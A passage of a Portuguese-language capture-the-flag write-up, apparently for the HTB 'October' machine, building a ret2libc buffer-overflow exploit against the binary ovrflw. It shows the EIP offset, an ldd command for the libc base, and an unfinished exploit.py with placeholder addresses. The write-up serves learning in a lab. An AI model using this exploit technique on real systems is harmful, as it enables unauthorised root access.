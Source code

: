 Shooow! É isso mesmo, com 112 ocasionamos o crash, 116 sobrescrevemos todo o EIP

Bom, a partir de agora precisamos de dados da máquina, não posso pegar da minha pq meu sistema eh 64 bits, a máquina invadida é 32 bits

#### Montagem do exploit

Montamos o exploit com essa base:

```
system_addr = endereço do system
exit_addr = qlqr coisa, é pra onde ele vai depois de executar o /bin/sh
arg_addr = é o comando do /bin/sh  
```

Beleza, é isso, mas onde vamos pegar todos esses valore pra colocar ali?

exploit.py
```
import struct


system_addr = struct.pack("<I",)
exit_addr = struct.pack("<I",)
arg_addr = struct.pack("<I",)

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr
```

#### Verificação da base da libc a ser carregada

Devemos verificar qual vai ser a base da libc que deve ser carregada no exploit, tendo em vista realizar o brute force

Aqui tanto faz qual deles vai ser, tem que ser um válido pra ele ter como base pra realização do brute force


`ldd /usr/local/bin/ovrflw | grep libc`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-october/O_libc.png)

Acrescentamos no exploit

exploit.py
```
import struct

libc_base_addr = 0xb759e000

system_addr = struct.pack("<I",)
exit_addr = struct.pack("<I",)
arg_addr = struct.pack("<I",)

buf = "A" * 112
buf += system_addr
buf += exit_addr
buf += arg_addr
```
